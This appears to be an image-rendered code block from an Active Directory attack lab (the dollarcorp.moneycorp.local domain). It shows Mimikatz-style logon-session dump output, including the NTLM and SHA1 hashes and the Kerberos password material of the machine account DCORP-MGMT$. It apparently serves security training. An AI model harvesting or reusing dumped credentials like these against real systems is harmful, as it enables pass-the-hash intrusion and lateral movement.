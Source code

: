 ```

Authentication Id : 0 ; 62114 (00000000:0000f2a2)
Session           : Service from 0
User Name         : SQLTELEMETRY
Domain            : NT Service
Logon Server      : (null)
Logon Time        : 1/5/2023 1:32:53 AM
SID               : S-1-5-80-2652535364-2169709536-2857650723-2622804123-1107741775
	msv :	
	 [00000003] Primary
	 * Username : DCORP-MGMT$
	 * Domain   : dcorp
	 * NTLM     : 639c1adde3e0d1ba0d733c7d0d8f23ec
	 * SHA1     : 944b2007bbb8137e85ecb019f409790040c435f9
	tspkg :	
	wdigest :	
	 * Username : DCORP-MGMT$
	 * Domain   : dcorp
	 * Password : (null)
	kerberos :	
	 * Username : DCORP-MGMT$
	 * Domain   : dollarcorp.moneycorp.local
	 * Password : df 1c e9 70 98 2f e1 9f 34 9d f2 d9 a4 75 e2 f0 88 4a 0c 4a 48 fc 82 64 0b cc d6 3d 8d c5 b0 1c 56 57 44 23 e1 d7 b3 0e 66 6d 7f 8c 23 00 39 46 3d ee 67 ee 6f 28 b5 70 47 76 65 1b 66 a3 6f 71 85 73 7a 94 33 4e 38 a1 6f 2a 16 2c 23 7d 2f ba a2 86 fe 63 62 3e 2d 8e 9a af d6 1d 7e 05 a5 1c eb 04 d2 40 bf 6d c1 cb b7 fd db f6 23 ed bf 9b d3 30 80 03 d6 a9 87 14 88 47 09 8e 26 c3 b4 e7 f6 f6 5f 4b 62 e1 9c 3e 51 4b 7d 4c c0 a1 02 48 72 df b0 3c 32 55 09 ae e2 b7 aa e9 ca e9 f3 d7 fd 65 b4 92 f3 c1 ff ec 81 95 15 b3 db ce 7d 05 41 81 59 2c f6 fd 46 d4 43 cb 89 61 88 2e 5a 1a 99 5f 03 d9 ad 74 f6 c8 35 3e 33 7c 22 20 8a 70 b5 e6 35 1e 4b 60 6f f9 c8 a0 7e b6 9a 84 2a 42 91 df bd fb 54 f6 d8 a9 ba 29 5a 90 70 de ba 53 
	ssp :	
	credman :	

Authentication Id : 0 ; 997 (00000000:000003e5)
Session           : Service from 0
User Name         : LOCAL SERVICE
Domain            : NT AUTHORITY
Logon Server      : (null)
Logon Time        : 1/5/2023 1:32:53 AM
SID               : S-1-5-19
	msv :	
	tspkg :	
	wdigest :	
	 * Username : (null)
	 * Domain   : (null)
	 * Password : (null)
	kerberos :	
	 * Username : (null)
	 * Domain   : (null)
	 * Password : (null)
	ssp :	
	credman :	

Authentication Id : 0 ; 21439 (00000000:000053bf)
Session           : UndefinedLogonType from 0
User Name         : (null)
Domain            : (null)
Logon Server      : (null)
Logon Time        : 1/5/2023 1:32:52 AM
SID               : 
	msv :	
	 [00000003] Primary
	 * Username : DCORP-MGMT$
```